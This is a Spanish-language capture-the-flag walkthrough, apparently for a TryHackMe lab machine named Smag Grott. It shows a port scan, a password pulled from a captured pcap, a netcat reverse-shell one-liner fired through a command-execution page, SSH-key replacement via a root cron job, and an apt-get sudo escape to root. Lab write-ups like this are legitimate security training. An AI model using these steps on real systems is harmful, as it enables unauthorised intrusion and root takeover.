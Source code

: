 # Smag Grott
## Initial Scan 
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```
## Enum 
### HTTP
#### Gobusting
```
/mail (Status: 301)
```
En el directorio encontramos un pcap del servidor y al menos 3 usuarios: uzi , jake , netadmin , en el fuente encontramos un cuarto user trodd

Mirando el pcap obtenemos lo siguiente siguiendo el TCP stream
```
username=helpdesk&password=cH4nG3M3_n0w
```
Vamos a probar este en el SSH y parece que no funciona, mirando mas el pcap vemos que tenemos un endopint no accesbile desde la nuestra máquina, mirando mas vemos que el acceso es mediante el host, añadamos el host encontrado a /etc/hosts
```
development.smag.thm
```
Si accedemos a la página con las anteriores creds veremos que tenemos un endpoit para ejecutar comandos pero sin el output en esa pagina por lo que parece, ejecutemos una revshell a ver si hay suerte
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1234 >/tmp/f
```
Con esa estamos dentro

## Privesc
Mirando el crontab
```
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
Podemos explotar esto cambiando esa clave publica por una nuestra, para ello generamos un par de clave en local y sustituimos la  publica remota por la nuestra 

Una vez que nos logeamso por ssh usando la clave como Jake podemos ver que podemos ejecutar cosas como sudo
```
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Ejecutamos lo siguiente:
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
Tenemos shell as root
